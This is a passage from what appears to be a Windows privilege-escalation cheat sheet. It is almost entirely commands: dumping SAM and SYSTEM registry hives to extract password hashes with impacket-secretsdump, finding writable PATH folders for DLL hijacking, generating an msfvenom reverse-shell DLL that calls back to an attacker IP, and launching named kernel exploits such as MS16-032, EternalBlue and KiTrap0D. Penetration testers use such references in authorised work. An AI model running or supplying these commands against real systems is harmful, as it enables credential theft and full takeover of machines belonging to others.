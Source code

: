 #### SeBackupPrivilege  
```cmd
# Check privilege
whoami /priv

# Enable privilege and backup SAM/SYSTEM
reg save hklm\sam sam.hiv
reg save hklm\system system.hiv

# Extract hashes offline
impacket-secretsdump -sam sam.hiv -system system.hiv LOCAL
```

### 5. Weak File/Folder Permissions
```cmd
# Find world-writable directories in PATH
for %%A in ("%path:;=";"%") do ( cmd /c icacls "%%~A" 2>nul | findstr /i "(F)" | findstr /i "everyone authenticated users todos" )

# DLL Hijacking - check for missing DLLs
procmon.exe  # Use Process Monitor to identify missing DLLs

# Create malicious DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=443 -f dll -o hijack.dll
```

### 6. Kernel Exploits

#### Check System Patches
```cmd
# List installed patches
wmic qfe get Caption,Description,HotFixID,InstalledOn

# PowerShell alternative
Get-WmiObject -Class Win32_QuickFixEngineering

# Use Windows Exploit Suggester
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --database 2021-05-27-mssb.xls --systeminfo systeminfo.txt
```

#### Common Kernel Exploits
```cmd
# MS16-032 (PowerShell)
powershell.exe -ExecutionPolicy Bypass -File Invoke-MS16032.ps1

# MS17-010 (EternalBlue)
# Use auxiliary/admin/smb/ms17_010_command in Metasploit

# MS15-051 (Windows 8.1/2012R2)
MS15-051.exe whoami

# MS10-015 (KiTrap0D) - Windows 7/2008/Vista/2003
Exploit.exe
```
